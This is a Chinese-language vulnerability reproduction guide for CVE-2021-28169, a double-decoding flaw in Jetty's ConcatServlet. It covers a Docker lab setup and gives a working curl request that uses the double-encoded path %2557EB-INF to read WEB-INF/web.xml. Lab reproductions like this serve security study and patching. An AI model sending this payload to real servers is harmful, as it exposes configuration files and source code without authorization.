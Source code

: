 # Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞 CVE-2021-28169

## 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的`ConcatServlet`、`WelcomeFilter`类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.40服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到一个example页面。该页面使用到了`ConcatServlet`来优化静态文件的加载：

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

![image-20220224164457554](./images/202202241652563.png)

## 漏洞复现

正常通过`/static?/WEB-INF/web.xml`无法访问到敏感文件web.xml：

![image-20220224165314273](./images/202202241653506.png)

对字母`W`进行双URL编码，即可绕过限制访问web.xml：

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

![image-20220224165357342](./images/202202241653568.png)
